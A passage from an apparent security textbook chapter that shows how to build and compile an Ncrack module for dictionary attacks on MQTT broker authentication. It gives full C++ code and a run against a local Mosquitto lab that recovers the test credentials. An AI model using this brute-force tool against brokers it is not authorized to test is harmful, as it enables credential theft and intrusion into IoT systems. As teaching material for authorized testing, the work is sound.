mosquitto_passwd -c /etc/mosquitto/password test  Password: **test123** Reenter password: **test123** ```    Then we create a configuration file called *pass.conf* inside the directory */etc/mosquitto/conf.d/* with the following contents:    ``` allow_anonymous false password_file /etc/mosquitto/password ```    Finally, we restart the Mosquitto broker for the changes to take effect:    ``` root@kali:~# /etc/init.d/mosquitto restart ```    We should now have mandatory authentication configured for our broker. If you try to publish or subscribe without issuing a valid username and password combination, you should get a `Connection error:``Connection Refused: not authorised` message.    MQTT brokers send a *CONNACK* packet in response to a *CONNECT* packet. You should see the return code 0x00 in the header if the credentials are deemed valid and the connection is accepted. If the credentials are incorrect, the return code is 0x05\. Figure 4-10 shows what a message with the return code 0x05 looks like, as captured by Wireshark.    Figure 4-10: MQTT *CONNACK* packet with return code 05, refusing the connection due to invalid credentials    Next, we’ll try to connect to the broker using the correct credentials while still capturing the network traffic. To easily see these packets, we fire up Wireshark and start capturing traffic on TCP port 1833\. To test the subscriber, we issue this command:    ``` root@kali:~# mosquitto_sub -t 'test/topic' -v -u test -P test123 ```    Similarly, to test the publisher, we issue the following command:    ``` root@kali:~# mosquitto_pub -t 'test/topic' -m 'test’ -u test -P test123 ```    You can see in Figure 4-11 that the broker now returns a *CONNACK* packet with a return code of 0x00\.      Figure 4-11: MQTT *CONNACK* packet with return code 0, indicating credentials were correct      ### Writing the MQTT Authentication-Cracking Module in Ncrack    In this section, we’ll expand Ncrack to support MQTT, allowing us to crack its credentials. Ncrack ([`nmap.org/ncrack/`](https://nmap.org/ncrack/)) is a high-speed network authentication cracking tool with a modular architecture. It supports a variety of network protocols (as of version 0.7, this includes SSH, RDP, FTP, Telnet, HTTP and HTTPS, WordPress, POP3 and POP3S, IMAP, CVS, SMB, VNC, SIP, Redis, PostgreSQL, MQTT, MySQL, MSSQL, MongoDB, Cassandra, WinRM, OWA, and DICOM). It belongs to the Nmap suite of security tools. Its modules perform dictionary attacks against protocol authentications, and it ships with a variety of username and password lists.    The latest recommended version of Ncrack is on GitHub at [`github.com/nmap/ncrack/`](https://github.com/nmap/ncrack/), although precompiled packages exist for distributions such as Kali Linux. The latest version already includes the MQTT module, so if you want to reproduce the next steps on your own, find the `git` commit from right before the module was added. To do that, use the following commands:    ``` root@kali:~# git clone https://github.com/nmap/ncrack.git root@kali:~# cd ncrack root@kali:~/ncrack# git checkout 73c2a165394ca8a0d0d6eb7d30aaa862f22faf63 ```    #### A Quick Intro to Ncrack’s Architecture    Like Nmap, Ncrack is written in C/C++, and it uses Nmap’s *Nsock* library to handle sockets in an asynchronous, event-driven manner. This means that instead of using multiple threads or processes to achieve parallelism, Ncrack continuously polls socket descriptors registered by each invoked module. Whenever a new network event occurs, such as a read, write, or timeout, it jumps to a preregistered callback handler that does something about the particular event. The internals of this mechanism are beyond the scope of this chapter. If you want a deeper understanding of Ncrack’s architecture, you can read the official developer’s guide at [`nmap.org/ncrack/devguide.html`](https://nmap.org/ncrack/devguide.html). We’ll explain how the event-driven socket paradigm comes into the picture while developing the MQTT module.    #### Compiling Ncrack    To begin, make sure you have a working, compilable version of Ncrack in your test environment. If you’re using Kali Linux, make sure you have all the build tools and dependencies available by issuing this command:    ``` root@kali:~# sudo apt install build-essential autoconf g++ git libssl-dev ```    Then clone the latest version of Ncrack from GitHub by entering:    ``` root@kali:~# git clone https://github.com/nmap/ncrack.git ```    Compiling should then be a simple matter of entering the following line inside the newly created *ncrack* directory:    ``` root@kali:~/ncrack#**./configure && make** ```    You should now have a working Ncrack binary inside the local directory. To test this, try running Ncrack without any arguments:    ``` root@kali:~/ncrack# ./ncrack ```    This should display the help menu.    #### Initializing the Module    You need to follow some standard steps every time you create a new module in Ncrack. First, edit the *ncrack-services* file to include the new protocol and its default port. Because MQTT uses TCP port 1833, we add the following line (anywhere in the file is fine):    ``` mqtt 1883/tcp ```    Second, include a reference to your module’s main function (for example, `ncrack_mqtt` in our case) in the `call_module` function inside the *ncrack.cc* file. All module main functions have the naming convention `ncrack_``protocol`,``substituting `protocol` for the actual protocol name. Add the following two lines inside the main `else-if` case:``   ```` ```  else if (!strcmp(name, "mqtt"))     ncrack_mqtt(nsp, con); ```    Third, we create the main file for our new module under the *modules* directory and name it *ncrack_mqtt.cc*. The *modules.h* file needs to have the definition of the main module function, so we add it. All main module functions have the same arguments (`nsock_pool, Connection *)`:    ``` void ncrack_mqtt(nsock_pool nsp, Connection *con); ```    Fourth, we edit *configure.ac* in the main *Ncrack* directory to include the new module files *ncrack_mqtt.cc* and *ncrack_mqtt.o* in the `MODULES_SRCS` and `MODULES_OBJS` variables, respectively:    ``` MODULES_SRCS="$MODULES_SRCS ncrack_ftp.cc ncrack_telnet.cc ncrack_http.cc \ ncrack_pop3.cc ncrack_vnc.cc ncrack_redis.cc ncrack_owa.cc \ ncrack_imap.cc ncrack_cassandra.cc ncrack_mssql.cc ncrack_cvs.cc \ ncrack_wordpress.cc ncrack_joomla.cc ncrack_dicom.cc ncrack_mqtt.cc" MODULES_OBJS="$MODULES_OBJS ncrack_ftp.o ncrack_telnet.o ncrack_http.o \ ncrack_pop3.o ncrack_vnc.o ncrack_redis.o ncrack_owa.o \ ncrack_imap.o ncrack_cassandra.o ncrack_mssql.o ncrack_cvs.o \ ncrack_wordpress.o ncrack_joomla.o ncrack_dicom.o ncrack_mqtt.o" ```    Note that after making any change to *configure.ac*, we need to run the `autoconf` tool inside the main directory to create the new *configure* script to be used in the compilation:    ``` root@kali:~/ncrack#**autoconf**  ```    #### The Main Code    Now let’s write the MQTT module code in the *ncrack_mqtt.cc* file. This module will conduct a dictionary attack against MQTT server authentication. Listing 4-1 shows the first part of our code, which has the header inclusions and function declarations.    ``` #include "ncrack.h" #include "nsock.h" #include "Service.h" #include "modules.h"  #define MQTT_TIMEOUT 20000 1 extern void ncrack_read_handler(nsock_pool nsp, nsock_event nse, void *mydata); 2 extern void ncrack_write_handler(nsock_pool nsp, nsock_event nse, void *mydata); extern void ncrack_module_end(nsock_pool nsp, void *mydata);  static int mqtt_loop_read(nsock_pool nsp, Connection *con); 3 enum states { MQTT_INIT, MQTT_FINI }; 4 ```    Listing 4-1: Header inclusions and function declarations    The file begins with local header inclusions that are standard for every module. In `MQTT_TIMEOUT`, we then define 1 how long we’ll wait until we receive an answer from the broker. We’ll use this value later in the code. Next, we declare three important callback handlers: `ncrack_read_handler` and `ncrack_write_handler` for reading and writing data to the network, and `ncrack_module_end`, which must be called each time we finish a whole authentication round 2. These three functions are defined in *ncrack.cc* and their semantics aren’t important here.    The function `mqtt_loop_read`3 is a *local-scope* helper function (meaning it’s visible only within the module file, due to the `static` modifier) that will parse the incoming MQTT data. Finally, we’ll have two states in our module 4. States, in Ncrack lingo, refer to specific steps in the authentication process for the particular protocol we’re cracking. Each state performs a micro-action, which almost always involves registering a certain network-related Nsock event. For example, in the `MQTT_INIT` state, we send our first MQTT *CONNECT* packet to the broker. Then, in the `MQTT_FINI` state, we receive the *CONNACK* packet from it. Both states involve either writing or reading data to the network.    The second part of the file defines two structures that will help us manipulate the *CONNECT* and *CONNACK* packets. Listing 4-2 shows the code for the former.    ``` struct connect_cmd {   uint8_t message_type; /* 1 for CONNECT packet */   uint8_t msg_len;      /* length of remaining packet */   uint16_t prot_name_len; /* should be 4 for "MQTT" */   u_char protocol[4];   /* it's always "MQTT" */   uint8_t version;      /* 4 for version MQTT version 3.1.1 */   uint8_t flags;        /* 0xc2 for flags: username, password, clean session */   uint16_t keep_alive;  /* 60 seconds */   uint16_t client_id_len; /* should be 6 with "Ncrack" as id */   u_char client_id[6];  /* let's keep it short - Ncrack */    uint16_t username_len; /* length of username string */     /* the rest of the packet, we'll add dynamically in our buffer:      * username (dynamic length),       * password_length (uint16_t)      * password (dynamic length)      */   connect_cmd() {  /* constructor - initialize with these values */ 1     message_type = 0x10;      prot_name_len = htons(4);         memcpy(protocol, "MQTT", 4);     version = 0x04;      flags = 0xc2;     keep_alive = htons(60);     client_id_len = htons(6);     memcpy(client_id, "Ncrack", 6);   } } __attribute__((__packed__)) connect_cmd; ```    Listing 4-2: Structure for manipulating the *CONNECT* packet    We define the C struct `connect_cmd` to contain the expected fields of an MQTT *CONNECT* packet as its members. Because the initial part of this type of packet is composed of a fixed header, it’s easy to statically define the values of these fields. The *CONNECT* packet is an MQTT control packet that has:    *   A *fixed header* made of the Packet Type and Length fields. *   A *variable header* made of the Protocol Name (prefixed by the Protocol Name Length), Protocol Level, Connect Flags, and Keep Alive. *   A *payload* with one or more length-prefixed fields; the presence of these fields is determined by the *Connect flags*—in our case, the Client Identifier, Username, and Password.    To determine exactly how the MQTT *CONNECT* packet is structured, consult the official protocol specification at [`docs.oasis-open.org/mqtt/mqtt/v5.0/os/mqtt-v5.0-os.html#_Toc3901033/`](https://docs.oasis-open.org/mqtt/mqtt/v5.0/os/mqtt-v5.0-os.html#_Toc3901033/). For convenience, you can use Table 4-2, which we created. We also recommend looking up the same packet structure in the Wireshark traffic dump (for example, Figure 4-9). You’ll generally have some flexibility regarding how to map the packet fields in the C struct fields; our way of doing it is one among many.    The `message_type` is a four-bit field that determines the packet type. The value `1` specifies the *CONNECT* packet. Note that we allocate eight bits (`uint8_t`) for this field to cover the four least significant bits reserved for this packet type (all `0`). The `msg_len` is the number of bytes remaining in the current packet, not including the bytes of the length field. It corresponds to the packet’s *Length* field.    Next on the variable header, `prot_name_len` and `protocol` correspond to the fields *Protocol Name Length* and *Protocol Name*. This length should always be `4`, because the protocol name is always represented by the capitalized UTF-8 encoded string `“MQTT”`. The `version`, representing the *Protocol Level* field, has the value `0x04` for MQTT version 3.1.1, but later standards might use different values. The `flags`, representing the *Connect Flags* field, determine the behavior of the MQTT connection and the presence or absence of fields in the payload. We’ll initialize it with the value `0xC2` to set the three flags: `username`, `password`, and `clean session`. The `keep_alive`, representing the *Keep Alive* field, is a time interval in seconds that determines the maximum amount of time that can lapse between sending consecutive control packets. It’s not important in our case, but we’ll use the same value as the Mosquitto application does.    Finally, the packet payload begins with the `client_id_length` and `client_id`. The *Client Identifier* must always be the first field in the *CONNECT* packet payload. It’s supposed to be unique for each client, so we’ll use `“Ncrack”` for our module. The remaining fields are the *Username Length* (`username_len`), *Username*, *Password Length*, and *Password*. Because we expect to be using different usernames and passwords for each connection (because we’re performing a dictionary attack), we’ll dynamically allocate the last three later in the code.    We then use the struct constructor 1 to initialize these fields with values that we know will stay the same.      Table 4-2: The MQTT *CONNECT* Packet Structure: Fixed Header, Variable Header, and Payload Separated by Bold Border      Our server will send the *CONNACK* packet in response to a *CONNECT* packet from a client. Listing 4-3 shows the structure of the *CONNACK* packet.    ``` struct ack {   uint8_t message_type;   uint8_t msg_len;   uint8_t flags;   uint8_t ret_code; } __attribute__((__packed__)) ack; ```    Listing 4-3: Structure for manipulating the *CONNACK* packet    The `message_type` and `msg_len` comprise the standard fixed header of an MQTT control packet, similar to the *CONNECT* packet’s header. MQTT sets the `message_type` value for the *CONNACK* packet to `2`. The `flags` are normally all `0` for this type of packet. You can see this in Figure 4-10 and Figure 4-11, also. The `ret_code` is the most important field because, depending on its value, we can determine whether or not our credentials were accepted. A return code of 0x00 signifies an accepted connection, while a return code of 0x05 indicates that the connection isn’t authorized (as we saw in Figure 4-10) because either no credentials were provided or they were incorrect. Although there are other return values, to keep our module simple, we’ll assume that any value other than 0x00 means we must try different credentials.    The struct’s `packed` attribute is a directive to the C compiler to not add any padding in between the fields (which it usually does automatically to optimize memory access), so everything is kept intact. We did the same for the `connect_cmd` struct. This is good practice for structs used in networking.    Next, we define a function called `mqtt_loop_read` to parse the *CONNACK* packet, as Listing 4-4 shows.    ``` static int mqtt_loop_read(nsock_pool nsp, Connection *con) {   struct ack *p; 1   if (con->inbuf == NULL || con->inbuf->get_len() < 4) {     nsock_read(nsp, con->niod, ncrack_read_handler, MQTT_TIMEOUT, con);     return -1;   }    p = (struct ack *)((char *)con->inbuf->get_dataptr()); 2   if (p->message_type != 0x20) /* reject if not an MQTT ACK message */     return -2;    if (p->ret_code == 0) /* return 0 only if return code is 0 */ 3     return 0;    return -2; } ```    Listing 4-4: Definition of the `mqtt_loop_read` function, which is responsible for parsing *CONNACK* packets and checking the return code    We first declare a local pointer `p` 1 to a struct of type `ack`. We then check whether we’ve received any data in our incoming buffer (is the `con->inbuf` pointer `NULL`?) or whether the received data’s length is less than 4, which is the minimum size for the expected server’s reply. If either of these conditions is true, we need to keep waiting for incoming data, so we schedule an `nsock_read` event that will be handled by our standard `ncrack_read_handler`.    How these functions work internally is beyond the scope of this book, but it’s important to understand the asynchronous nature of this method. The point is that these functions will do their jobs after the module returns control to the main Ncrack engine, which will happen after the function `ncrack_mqtt` ends execution. To know where the module left off for each TCP connection when it’s next called, Ncrack keeps the current state in the `con->state` variable. Additional information is also kept in other members of the `Connection` class, such as the buffers for incoming (`inbuf`) and outgoing (`outbuf`) data.    Once we know we’ve received a complete *CONNACK* reply, we can point our local `p` pointer to the buffer 2 meant for incoming network data. We cast that buffer to the `struct ack` pointer. In simple terms, this means that we can now use the `p` pointer to easily browse through the members of the struct. Then the first thing we check in the received packet is whether or not it’s a *CONNACK* packet; if it’s not, we shouldn’t bother parsing it any further. If it is, we check whether the return code is 0 3, in which case we return a 0 to notify the caller that the credentials were correct. Otherwise, an error occurred or the credentials were incorrect, and we return a -2\.    The final part of our code is the main `ncrack_mqtt` function that handles all the logic for authenticating against an MQTT server. It’s divided into two listings: Listing 4-5 contains the logic for the `MQTT_INIT` state, and Listing 4-6 contains the logic for the `MQTT_FINI` state.    ``` void ncrack_mqtt(nsock_pool nsp, Connection *con) { nsock_iod nsi = con->niod; 1   struct connect_cmd cmd;   uint16_t pass_len;  switch (con->state) 2 {   case MQTT_INIT:     con->state = MQTT_FINI;      delete con->inbuf; 3     con->inbuf = NULL;     if (con->outbuf)       delete con->outbuf;     con->outbuf = new Buf();      /* the message len is the size of the struct plus the length of the usernames      * and password minus 2 for the first 2 bytes (message type and message length) that       * are not counted in      */     cmd.msg_len = sizeof(connect_cmd) + strlen(con->user) + strlen(con->pass) +                      sizeof(pass_len) - 2; 4     cmd.username_len = htons(strlen(con->user));     pass_len = htons(strlen(con->pass));      con->outbuf->append(&cmd, sizeof(cmd)); 5     con->outbuf->snprintf(strlen(con->user), "%s", con->user);     con->outbuf->append(&pass_len, sizeof(pass_len));     con->outbuf->snprintf(strlen(con->pass), "%s", con->pass);      nsock_write(nsp, nsi, ncrack_write_handler, MQTT_TIMEOUT, con, 6           (const char *)con->outbuf->get_dataptr(), con->outbuf->get_len());     break; ```    Listing 4-5: The `MQTT_INIT` state that sends the *CONNECT* packet    The first block of code in our main function declares three local variables 1. Nsock uses the `nsock_iod` variable whenever we register network read and write events through `nsock_read` and `nsock_write` correspondingly. The struct `cmd`, which we defined in Listing 4-2, handles the incoming *CONNECT* packet. Note that its constructor is automatically called when we declare it, so it’s initialized with the default values we gave each field. We’ll use `pass_len` to temporarily store the password length’s two-byte value.    Every Ncrack module has a `switch` statement 2 in which each case represents a specific step of the authentication phase for the particular protocol we’re cracking. MQTT authentication only has two states: we start with `MQTT_INIT`, and then set the next state to be `MQTT_FINI`. This means that when we end the execution of this phase and return control to the main Ncrack engine, the switch statement will continue from the next state, `MQTT_FINI` (shown in 4-6), when the module gets executed again for this particular TCP connection.    We then make sure our buffers for receiving (`con->inbuf`) and sending (`con->outbuf`) network data are clear and empty 3. Next, we update the remaining length field in our `cmd` struct 4. Remember that this is calculated as the remaining length of the *CONNECT* packet, not including the length field. We must take into account the size of the extra three fields (username, password length, and password) that we’re adding at the end of our packet, because we didn’t include those in our `cmd` struct. We also update the username length field with the actual size of the current username. Ncrack automatically iterates through the dictionary and updates the username and password in the `user` and `pass` variables of the `Connection` class accordingly. We also calculate the password length and store it in `pass_len`. Next, we start crafting our outgoing CONNECT packet by first adding our updated `cmd` struct to the `outbuf` 5 and then dynamically adding the extra three fields. The `Buffer` class (`inbuf`, `outbuf`) has its own convenient functions, such as `append` and `snprintf`, with which you can easily and gradually add formatted data to craft your own TCP payloads.    Additionally, we schedule our packet in `outbuf` to be sent to the network by registering a network write event through `nsock_write`, handled by `ncrack_write_handler`6. Then we end the switch statement and the `ncrack_mqtt` function (for now) and return execution control to the main engine, which among other tasks will loop through any registered network events (like the one we just scheduled above with the use of the `ncrack_mqtt` function) and handle them.    The next state, `MQTT_FINI`, receives and parses the incoming CONNACK packet from the broker and checks whether our provided credentials were correct. Listing 4-6 shows the code, which goes in the same function definition as Listing 4-5.    ```  case MQTT_FINI:       if (mqtt_loop_read(nsp, con) == -1) 1         break;       else if (mqtt_loop_read(nsp, con) == 0) 2         con->auth_success = true;   con->state = MQTT_INIT; 3       delete con->inbuf;       con->inbuf = NULL;       return ncrack_module_end(nsp, con); 4   } } ```    Listing 4-6: The `MQTT_FINI` state that receives the incoming *CONNACK* packet and evaluates if the username and password combination we sent were correct or not    We start by asking `mqtt_loop_read` whether we’ve received the server’s reply yet 1. Recall from Listing 4-4 that it will return -1 if we haven’t yet gotten all four bytes of the incoming packet. If we haven’t yet received the complete reply of the server, `mqtt_loop_read` will register a read event, and we’ll return control to the main engine to wait for those data or handle other events registered from other connections (of the same or other modules that might be running). If `mqtt_loop_read` returns 0 2, it means that the current username and password successfully authenticated against our target and we should update the Connection variable `auth_success` so Ncrack marks the current credential pair as valid.    We then update the internal state to go back to `MQTT_INIT`3, because we have to loop through the rest of the credentials in the current dictionary. At this point, because we’ve completed a full authentication attempt, we call `ncrack_module_end`4, which will update some statistical variables (such as the number of times we’ve attempted to authenticate so far) for the service.    The concatenation of all six listings makes up the whole MQTT module file *ncrack_mqtt.cc*. The GitHub commit at [`github.com/nmap/ncrack/blob/accdba084e757aef51dbb11753e9c36ffae122f3/modules/ncrack_mqtt.cc/`](https://github.com/nmap/ncrack/blob/accdba084e757aef51dbb11753e9c36ffae122f3/modules/ncrack_mqtt.cc/) provides the file we coded in its entirety. After finishing with the code, we enter `make` in the main *Ncrack* directory to compile our new module.    ### Testing the Ncrack Module Against MQTT    Let’s test our new module against the Mosquitto broker to see how fast we can find a correct username and password pair. We can do that by running the module against our local Mosquitto instance:    ``` root@kali:~/ncrack#**./ncrack mqtt://127.0.0.1 --user test -v** Starting Ncrack 0.7 ( http://ncrack.org ) at 2019-10-31 01:15 CDT  Discovered credentials on mqtt://127.0.0.1:1883 'test' 'test123' mqtt://127.0.0.1:1883 finished.  Discovered credentials for mqtt on 127.0.0.1 1883/tcp: 127.0.0.1 1883/tcp mqtt: 'test' 'test123'  Ncrack done: 1 service scanned in 3.00 seconds. Probes sent: 5000 | timed-out: 0 | prematurely-closed: 0  Ncrack finished. ```    We tested against only the username `test` and the default password list (found under *lists/default.pwd*) in which we manually added the *test123* password at the end of the file. Ncrack successfully cracked the MQTT service in three seconds after trying 5,000 credential combinations.    ## Conclusion    In this chapter, we performed VLAN hopping, network reconnaissance, and authentication cracking. We first abused VLAN protocols and identified unknown services in IoT networks. Then we introduced you to MQTT and cracked MQTT authentication. By now, you should be familiar with how to traverse VLANs, take advantage of Ncrack’s password cracking capabilities, and use Nmap’s powerful service detection engine. ```` `````
